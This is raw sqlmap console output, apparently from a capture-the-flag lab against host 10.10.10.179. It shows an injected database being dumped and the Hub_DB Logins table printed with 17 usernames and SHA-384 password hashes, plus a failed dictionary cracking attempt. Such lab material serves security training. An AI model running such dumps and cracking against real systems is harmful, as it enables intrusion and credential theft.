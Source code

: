     [18:52:23] [INFO] table 'Hub_DB.dbo.Colleagues' dumped to CSV file '/root/.sqlmap/output/10.10.10.179/dump/Hub_DB/Colleagues.csv'
    [18:52:23] [INFO] fetching columns for table 'Logins' in database 'Hub_DB'
    [18:52:33] [INFO] fetching entries for table 'Logins' in database 'Hub_DB'
    [18:52:38] [INFO] recognized possible password hashes in column '[password]'
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
    do you want to crack them via a dictionary-based attack? [Y/n/q] Y
    [18:52:38] [INFO] using hash method 'sha384_generic_passwd'
    what dictionary do you want to use?                        
    [1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
    [2] custom dictionary file                                 
    [3] file with list of dictionary files                     
    > 1                                                        
    [18:52:38] [INFO] using default dictionary                 
    do you want to use common password suffixes? (slow!) [y/N] N
    [18:52:38] [INFO] starting dictionary-based cracking (sha384_generic_passwd)
    [18:52:38] [INFO] starting 3 processes                     
    [18:52:50] [WARNING] no clear password(s) found
    Database: Hub_DB 
    Table: Logins                                              
    [17 entries]
    +------+----------+--------------------------------------------------------------------------------------------------+
    | id   | username | password                                                                                         |
    +------+----------+--------------------------------------------------------------------------------------------------+
    | 1    | sbauer   | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
    | 2    | okent    | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
    | 3    | ckane    | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
    | 4    | kpage    | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
    | 5    | shayna   | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
    | 6    | james    | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
    | 7    | cyork    | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
    | 8    | rmartin  | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
    | 9    | zac      | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
    | 10   | jorden   | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
    | 11   | alyx     | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
    | 12   | ilee     | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
    | 13   | nbourne  | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
    | 14   | zpowers  | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
    | 15   | aldom    | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
    | 16   | minatotw | cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc |
    | 17   | egre55   | cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc |
    +------+----------+--------------------------------------------------------------------------------------------------+
    